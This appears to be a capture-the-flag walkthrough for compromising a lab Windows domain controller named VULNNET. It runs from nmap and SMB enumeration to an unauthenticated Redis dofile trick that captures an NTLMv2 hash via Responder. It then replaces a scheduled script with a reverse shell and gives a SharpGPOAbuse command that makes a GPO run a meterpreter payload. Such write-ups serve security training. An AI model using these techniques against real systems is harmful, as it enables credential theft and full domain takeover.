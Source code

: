 
# Initial Enumeration
## NMAP Top 1000 with Versions and Scripts
```
PORT    STATE SERVICE       REASON  VERSION
53/tcp  open  domain        syn-ack Simple DNS Plus
135/tcp open  msrpc         syn-ack Microsoft Windows RPC
139/tcp open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds? syn-ack
464/tcp open  kpasswd5?     syn-ack
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 37084/tcp): CLEAN (Timeout)
|   Check 2 (port 25628/tcp): CLEAN (Timeout)
|   Check 3 (port 53810/udp): CLEAN (Timeout)
|   Check 4 (port 30869/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-08-04T17:31:11
|_  start_date: N/A
```

## NMAP Full Port Sweep 
```
PORT      STATE SERVICE      REASON
53/tcp    open  domain       syn-ack
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
464/tcp   open  kpasswd5     syn-ack
6379/tcp  open  redis        syn-ack
9389/tcp  open  adws         syn-ack
49666/tcp open  unknown      syn-ack
49667/tcp open  unknown      syn-ack
49669/tcp open  unknown      syn-ack
49670/tcp open  unknown      syn-ack
49673/tcp open  unknown      syn-ack
49688/tcp open  unknown      syn-ack
49714/tcp open  unknown      syn-ack

```

## Enum4Linux-ng Interesting Output
```
[*] Checking SMB            
[+] SMB is accessible on 445/tcp              
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ==========================================
|    RPC Session Check on 10.10.208.250    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''


 ====================================================
|    Domain Information via RPC for 10.10.208.250    |
 ====================================================
[+] Domain: VULNNET
[+] SID: S-1-5-21-1405206085-1650434706-76331420
[+] Host is part of a domain (not a workgroup)
```


## Redis Enumeration
The redis install running on port 6379 doesn't require authentication so we can collect information with 
`CONFIG GET *`
This leaks a username
`enterprise-security`

### LUA DOFILE
We are able to pull files from the local system using `EVAL 'DOFILE("<SMB SHARE>") 0'`

If we catch this process on responder to give us a user NTLMv2 hash
```
enterprise-security::VULNNET:4af
<SNIPPET>
00000800300030000000000000000000000000300000B6F1A5003AA3B5FB0DE3A974E4DEF80283D1B5F1E3C8C6D01A3FF59DD12EDC4A0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310031002E00340031002E00380033000000000000000000
```

This cracks down to `Redacted`

# Credentials
 Obtained from Redis config and dofile onto a Responder SMB share
```
enterprise-security:sa<REDACTED>98
```


## Authenticated Enumeration
Piping these credentials into [[CrackMapExec]] we found that we have READ access to the `Enterprise-Share`  SMB share. 

This contained `PurgeIrrelevantData_1826.ps1` 

PurgeIrrelevantData_1826.ps1:
```
rm -Force C:\Users\Public\Documents\* -ErrorAction SilentlyContinue
```


Pulling this file from SMB and putting in a powershell reverse shell, we can get a call back from the task scheduler executing the updated file.



## Privesc

We can see from running bloodhound that we have generic write privileges on security-policy-vn 

We can use a PowerTool module (This didn't work in my case) or you can use SharpGPOAbuse.exe created by F-Secure
[https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)

Note you can either compile SharpGPOAbuse.exe yourself from the f-secure repo
or you can download a pre-compiled version from 
[https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0](https://github.com/byronkg/SharpGPOAbuse/releases/tag/1.0)

Upload a meterpreter shell and create your immediate task like so.
```
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author "VULNNET\Administrator" --Command "cmd.exe" --Arguments "/c C:\Enterprise-Share\shelly.exe" --GPOName "security-pol-vn" --Force
```

Once you have injected your task, you will need to force a Group Policy update with the following
```
GPUpdate /force
```

With any luck you should gain a root shell.
